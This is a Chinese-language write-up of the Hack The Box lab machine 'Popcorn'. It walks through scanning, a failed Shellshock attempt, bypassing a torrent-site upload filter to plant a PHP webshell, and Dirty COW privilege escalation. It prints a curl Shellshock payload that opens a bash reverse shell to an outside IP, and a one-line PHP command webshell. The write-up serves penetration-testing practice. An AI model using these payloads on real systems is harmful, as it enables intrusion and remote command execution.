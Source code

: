 ```yaml
---
title: Popcorn（文件上传）
categories:
- training
tags:
- training
---
```


## scan
```
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
PHP/5.2.10-2ubuntu6.10
```
## web
先检查破壳漏洞，然后检查/test目录泄露的信息
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/1.PNG)
```
获取的信息：
Server Administrator 
webmaster@localhost 

web路径：/etc/apache2
	/var/www/test.php 

服务：/var/run/mysqld/mysqld.sock 

http://10.10.10.6/test/index.php

http://10.10.10.6/torrent/database/
-- Database: `torrenthoster`
```
burp scanner扫描了一遍，发现了几个漏洞，好像不能利用
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/12.PNG)

#### trying1: 低版本openssh

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/2.PNG)

#### trying2: 破壳漏洞检查

[CVE-2014-6271](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
searchsploit shellshock

PHP < 5.6.2 - 'Shellshock' Safe Mode / Disable Functions Bypass / Command Injection                         | exploits/php/webapps/35146.txt
Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)                                               | exploits/cgi/webapps/34895.r
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/3.PNG)
没有任何反应

#### trying3: 破壳漏洞检查2
http://10.10.10.6/test/
```
nc -lnvp 666

curl –H 'x: () { :;}; /bin/bash –i >& /dev/tcp/10.10.14.13/666 0>&1' http://10.10.10.6/test/
```
同样失败

#### trying4: 发现web目录
被漏洞扫描软件给坑了。不管有没有破壳漏洞，先扫描一下目录

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/4.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/5.PNG)

exploit db上搜索一下Torrent Hoster。

[Torrent Hoster Remont Upload Exploit](https://www.exploit-db.com/exploits/11746)

 sql注入检测被网站黑名单发现
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/11.PNG)

做信息搜集发现的信息：
```
MySQL db        http://10.10.10.6/torrent/comment
```
#### trying5: 准备上传

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/6.PNG)
先随便上传一个txt，提示说明必须要是torrent文件，但是我们想要上传php类型webshell。

1. 上传torrent文件，burp---send to repeater，得到文件类型等信息。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/7.PNG)

2. 
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/8.PNG)
主面板获得上传的文件的路径。
http://10.10.10.6/torrent/torrents.php?mode=download&id=06aceda1226df400b0506aa813688f45309318a6

3.
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/9.PNG)
尝试替换为php反弹脚本，提示不是有效的torrent文件。

4. 

查看msfvenom能否生成torrent类型的载荷。

`msfvenom -l formats | grep torrent`

5.尝试在上传torrent时，同时上传一句话木马。
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/10.PNG)
生成了1.PNG.torrent

<?php @system($_POST["cmd"])?>

6.尝试在修改screenshot，上传反弹木马
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/13.PNG)
先注册账号，然后登陆。

随便上传一个torrent，然后点击edit the torrent。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/14.PNG)

替换图片内容为php-reverse-shell，名称后缀改为6.png.php

nc监听本地地址。

访问上传的路径：
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/15.PNG)

上传php反弹webshell失败，权限不够。

7. 和上一步差不多，上传一句话，而不是php反弹脚本
![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/16.PNG)

![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/17.PNG)

## 提权
`uname -a`

发现linux内核为2.6.x，于是dirty cow提权。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/19.PNG)

值得一提的是
```
./a.out

Please enter the new password: a
```

然后就卡了有将近一分钟吧，还以为提权执行失败了（，，）下回要耐心等待。

## 总结：

以后遇到这种情况，测试方法

- 某cms，先查找以往漏洞。
- 确定输入点，挨个测试一遍。（当时一直在测torrent上传，没想到漏洞在更改图片那里）
- 上传漏洞需要找到上传的文件的路径。
一般要结合**路径遍历漏洞**。例如在这个cms，如果像下图一样，只是说明上传成功了，但是没有给出上传的地址（一般来说也没有必要）。

![18](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/18.PNG)

